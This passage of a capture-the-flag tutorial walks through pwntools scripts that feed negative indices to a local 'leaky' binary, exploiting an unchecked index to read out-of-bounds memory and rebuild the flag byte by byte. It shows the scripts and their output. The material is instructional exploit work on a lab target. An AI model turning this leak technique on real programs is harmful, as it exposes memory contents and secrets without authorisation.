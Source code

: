 Let's leak one byte of the flag using pwntools.

```python
#!/usr/bin/env python
from pwn import *

io = process('leaky')

# "Give me an index and I'll tell you what's there!\n
io.recvline()

# Send offset -10
io.sendline('-10')

# Here you go\n
result = io.recvline()

print(b"Got: " + result)

io.interactive()
```

If we run the previous script, we get the following output:

```text
[+] Starting local process './leaky': Done
Got: Okay, here you go: 0xffe947d8 S

[*] Switching to interactive mode
[*] Process './leaky' stopped with exit code 0
[*] Got EOF while reading in interactive
$
```

Notice the `$` prompt which still awaits input from us to feed the process.
This is due to the `io.interactive()` line at the end of the script.

We can encapsulate the previous sequence of interactions inside a function which we can loop.

```python
#!/usr/bin/env python
from pwn import *

def leak_char(offset):
    # "Give me an index and I'll tell you what's there!\n
    io.recvline()

    # Send offset
    io.sendline(str(offset))

    # Here you go\n
    result = io.recvline()

    # Parse the result
    leaked_char = result.split(b'go: ')[1].split(b' ')[1].split(b'\n')[0]
    return leaked_char

io = process('leaky')

flag = ''

for i in range(-10,0):
    flag += leak_char(i).decode("utf-8")

print("The flag is: " + flag)
io.close()
```
